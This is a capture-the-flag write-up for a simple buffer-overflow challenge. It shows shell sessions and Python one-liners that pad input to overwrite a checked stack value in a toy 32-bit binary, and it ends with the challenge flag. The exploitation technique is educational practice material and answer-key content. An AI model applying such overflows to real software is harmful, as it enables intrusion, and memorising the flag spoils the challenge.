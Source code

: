 ## How is your memory?

### Description:
Well here is a small application to test your memory!

### Author: 
Lucian Nitescu

### Stats: 
4 points / 169 solvers 

### Solution:  

The challenge started with memory.pcap witch is actually an 32-bit ELF executable. 

```
mehuser:~$ file memory.pcap 
memory.pcap: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=ffa14db28a5fdf190ee6b0b56af2c7b2cab9cdd5, not stripped
```

Well this also can be open in wireshark and it will look as such:

![alt text](./img/1.png "wireshark")

The point is that the challenge was all about buffer overflow exploits.

```
mehuser:~$ chmod +x ./memory.pcap 
mehuser:~$ ./memory.pcap 


Oh well you do remember your extension!

[You have sent this msg]: 

[Instead of 0xdeadbeef the target recived]: 0x4030201

```

So for the first step we have to enter 0xdeadbeef but we got 0x4030201. A normal test would be:

```
mehuser:~$ ./memory.pcap 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Oh well you do remember your extension!

[You have sent this msg]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[Instead of 0xdeadbeef the target recived]: 0x41414141

Hey hey do not spam! Go home you are drunk!
```

Now we can observe that we got 0x41414141 (the hex of the string AAAA) instead 0x4030201!

```
mehuser:~$ ./memory.pcap 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbbbb

Oh well you do remember your extension!

[You have sent this msg]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbbbb
[Instead of 0xdeadbeef the target recived]: 0x62626262

Hey hey do not spam! Go home you are drunk!
```

At this point we have to write 0xdeadbeef, but normally we can not write "unreadable" chars so we will use python:

```
mehuser:~$ python -c "import struct; check=struct.pack('<I', 0xdeadbeef); print 'A' * 40 + check"| ./memory.pcap

Oh well you do remember your extension!

[You have sent this msg]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
[Instead of 0xdeadbeef the target recived]: 0xdeadbeef
Meh...you did it... but I am not sure you know what you did there... Again, is your memory good enough?
[You have sent this msg]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���
[Instead of 0x41414242 the target recived]: 0xffffff
```

Well we now have to bypass the second check. Simple task for python!

```
mehuser:~$ python -c "import struct; check=struct.pack('<I', 0xdeadbeef); print 'A' * 40 + check + \"\\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBAA\" " | ./memory.pcap 

Oh well you do remember your extension!

[You have sent this msg]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
[Instead of 0xdeadbeef the target recived]: 0xdeadbeef
Meh...you did it... but I am not sure you know what you did there... Again, is your memory good enough?
[You have sent this msg]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBAA
[Instead of 0x41414242 the target recived]: 0x41414242
Wow I am impressed! Now for the last time:
DCTF{SHA256(ads3wqdsx<>ads3wqdsxprintfDCTF256mehgeneration)}

```

The flag is: DCTF{33886bb08d43834495866481148c60bbf9b58421d1dd4849865e49fe444366c6}